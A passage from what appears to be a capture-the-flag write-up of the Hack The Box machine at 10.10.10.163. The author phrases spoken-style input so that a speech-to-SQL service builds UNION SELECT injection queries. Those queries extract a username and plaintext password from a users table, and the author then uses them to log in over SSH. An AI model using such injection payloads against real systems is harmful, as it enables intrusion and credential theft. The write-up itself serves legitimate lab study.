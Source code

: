 

I got a bit closer messing with the spelling:



    root@kali# ./query_ai.sh "open single quote space union select group underscore concat space open parenthesis table underscore name close parenthesis space from in formation underscore skima period tables comment database"
    Our understanding of your input is : '  union select group_concat  (table_name)  from in4mation_scheme a.tables -- -
    Query result : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '.tables -- -'' at line 1



But never got it to work.

### Username / Password

I decided to take another tact and guess that there might be a users
table, and I was right! In fact, with some guessing, I could get a user
and a password:



    root@kali# ./query_ai.sh "open single quote space union select space username space from users comment database"
    Our understanding of your input is : '  union select   username   from users -- -
    Query result : alexa
    root@kali# ./query_ai.sh "open single quote space union select space password space from users comment database"
    Our understanding of your input is : '  union select   password   from users -- -
    Query result : H,Sq9t6}a<)?q93_



### SSH

That username / password combination worked for SSH:



    root@kali# ssh alexa@10.10.10.163
    alexa@10.10.10.163's password:
    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 5.3.7-050307-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage

      System information as of Mon Nov 11 19:04:32 UTC 2019

      System load:  0.0                Processes:           148
      Usage of /:   28.2% of 19.56GB   Users logged in:     0
      Memory usage: 25%                IP address for eth0: 10.10.10.163
      Swap usage:   0%
      

     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch
